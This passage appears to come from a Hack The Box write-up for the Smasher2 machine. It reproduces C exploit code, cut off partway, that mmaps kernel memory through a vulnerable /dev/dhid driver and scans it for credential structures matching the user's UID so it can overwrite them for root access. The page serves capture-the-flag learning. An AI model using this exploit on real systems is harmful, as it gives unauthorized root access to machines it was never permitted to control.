 ![](/assets/images/htb-writeup-smasher2/kernel3.png)

The whitepaper contains an exploit code that search the memory space for credential structures then modify it to give root access.

```c
#include<stdio.h>
#include<stdlib.h>
#include<errno.h>
#include <sys/mman.h>
#include<fcntl.h>
#include<string.h>
#include<unistd.h>
#include <pthread.h>

int main(int argc, char * const * argv)
{
	printf("[+] PID: %d\n", getpid());
	int fd = open("/dev/dhid", O_RDWR);
	if (fd < 0)
	{
		printf("[-] Open failed!\n");
		return -1;
	}
	printf("[+] Open OK fd: %d\n", fd);
	unsigned long size = 0xf0000000;
	unsigned long mmapStart = 0x42424000;
	unsigned int * addr = (unsigned int *)mmap((void*)mmapStart, size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x0);
	if (addr == MAP_FAILED)
	{
		perror("Failed to mmap: ");
		close(fd);
		return -1;
	}
	printf("[+] mmap OK addr: %lx\n", addr);
	
	unsigned int uid = getuid();
	printf("[+] UID: %d\n", uid);
	unsigned int credIt = 0;
	unsigned int credNum = 0;
	while (((unsigned long)addr) < (mmapStart + size - 0x40))
	{
		credIt = 0;
		if (
		addr[credIt++] == uid &&
```
